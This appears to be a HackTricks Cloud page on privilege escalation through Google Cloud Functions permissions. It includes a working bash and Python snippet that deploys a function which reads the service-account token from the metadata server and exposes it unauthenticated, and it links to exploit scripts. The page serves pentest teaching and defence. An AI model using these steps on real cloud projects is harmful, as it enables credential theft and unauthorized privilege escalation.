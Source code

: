 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

More information about Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **create a new Cloud Function with arbitrary (malicious) code and assign it a Service Account**. Then, leak the Service Account token from the metadata to escalate privileges to it.\
Some privileges to trigger the function might be required.

Exploit scripts for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) and [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) and the prebuilt .zip file can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **modify the code of a Function and even modify the service account attached** with the goal of exfiltrating the token.

{% hint style="danger" %}
In order to deploy cloud functions you will also need actAs permissions over the default compute service account or over the service account that is used to build the image.
{% endhint %}

Some extra privileges like `.call` permission for version 1 cloudfunctions or the role `role/run.invoker` to trigger the function might be required.

```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
    cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
    result = subprocess.check_output(cmd, shell=True, text=True)
    return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
  --runtime python312 \
  --source $temp_dir \
  --entry-point main \
  --service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
  --trigger-http \
  --allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```

{% hint style="danger" %}
If you get the error `Permission 'run.services.setIamPolicy' denied on resource...` is because you are using the `--allow-unauthenticated` param and you don't have enough permissions for it.
{% endhint %}

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

With this permission you can get a **signed URL to be able to upload a file to a function bucket (but the code of the function won't be changed, you still need to update it)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Give yourself any of the previous **`.update`** or **`.create`** privileges to escalate.

### `cloudfunctions.functions.update`

Only having **`cloudfunctions`** permissions, without **`iam.serviceAccounts.actAs`** you **won't be able to update the function SO THIS IS NOT A VALID PRIVESC.**

### Bucket Write Permissions

You might think that an attacker with **write permissions over the bucket** where the Cloud Functions code is stored will be able to **modify the code overwriting** the `function_code.zip` and then make the function **execute arbitrary** code.

{% hint style="success" %}
**However, this isn't true, just overwriting the code inside the bucket won't modify the code that is being executed.**
{% endhint %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
